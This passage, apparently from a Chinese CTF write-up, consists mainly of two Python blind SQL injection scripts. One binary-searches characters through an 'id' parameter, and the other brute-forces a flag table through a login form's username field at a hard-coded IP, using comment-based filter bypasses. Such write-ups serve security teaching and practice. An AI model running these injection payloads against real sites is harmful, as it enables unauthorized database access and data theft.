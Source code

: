 ```python
	mid = (max + min) //2

	while min <max :
		payload = "0||(table information_schema.TABLESPACES_EXTENSIONS limit 5,1)>('{0}',NULL)".format(flag + chr(mid)+ chr(1))
		params = { 'id': payload}	
		try:
			res = requests.get(url,params = params)
			print(payload,res.text)
			if "1" in res.text :   # zhen
				min = mid +1
			else:
				max = mid
		except Exception as e:
			print  e
		mid = (max + min)// 2

	flag += chr(mid-1)
	print flag
```





因为flag表只有一列，获取flag 

```python
import requests

url = "http://139.129.98.9:30003/login.php"

char = ""

while 1:
	for x in range(ord('0')-1,ord('H')+2):
		data = {
			"username":"admin'and('{0}')>hex((table/**/f11114g/**/limit/**/1,1))#".format(char+chr(x)),
			"password":"aa"
		}
		res = requests.post(url,data =data)
		#print res.text
		if "password" in res.text:
			print(res.text,char+chr(x))
			char += chr(x-1)
			break
	print(char)
```



## 快乐圣诞 cei 叮壳
